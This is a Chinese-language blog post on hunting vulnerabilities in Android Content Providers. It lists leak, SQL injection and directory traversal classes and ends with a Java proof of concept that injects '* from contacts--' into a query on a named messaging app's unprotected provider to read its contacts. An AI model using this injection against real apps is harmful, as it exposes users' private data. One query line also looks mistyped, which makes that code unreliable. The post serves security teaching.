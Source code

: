 ```yaml
---
layout: post
title: android Content Provider漏洞挖掘
categories:
  - - 安全
    - 移动安全
    - android安全
tags: 
  - android安全
abbrlink: 758430476
date: 2019-03-07 00:00:00
description: android Content Provider漏洞挖掘
---
```


## Content Provider安全场景和危害

在Android系统中，Content Provider作为应用程序四大组件之一，它起到在应用程序之间共享数据的作用，通过Binder进程间通信机制以及匿名共享内存机制来实现。  
然而有些数据是应用自己的核心数据，需要有保护地进行开放。  
虽然Binder进程间通信机制突破了以应用程序为边界的权限控制，但是它是安全可控的，因为数据的访问接口是由数据的所有者来提供的，就是数据提供方可以在接口层来实现安全控制，决定哪些数据是可以读，哪些数据可以写。  
很多开发者不能恰当的使用，导致攻击者可访问到应用本身不想共享的数据。虽然Content Provider组件本身也提供了读写权限控制，但是它的控制粒度是比较粗的。  

## Content Provider漏洞分类

- 信息泄漏
- SQL注入
- 目录遍历

## 信息泄露漏洞

content URI是一个标志provider中的数据的URI。Content URI中包含了整个provider的以符号表示的名字(它的authority)和指向一个表的名字(一个路径)。当你调用一个客户端的方法来操作一个，provider中的一个表，指向表的contentURI是参数之一，如果对Content Provider的权限没有做好控制，就有可能导致恶意的程序通过这种方式读取APP的敏感数据。  


	<provider android:name=".providers.YouNiProvider" android:process="com.snda.youni.mms" android:authorities="com.snda.youni.providers.DataStructs"/>

	private void getyouni(){
		int i = 0;
		ContentResolver contentresolver=getContentResolver();
		String[] projection={"* from contacts--"};
		Uri uri =Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");
		Cursor cursor=contentresolver.query(uri.projection,null,null,null);
		String text="";
		while(cursor.moveToNext()){
			text+=cursor.getString(cursor.getColumnIndex("display_name"))+"\n";
		}
		Log.i("TEST",text);
	}
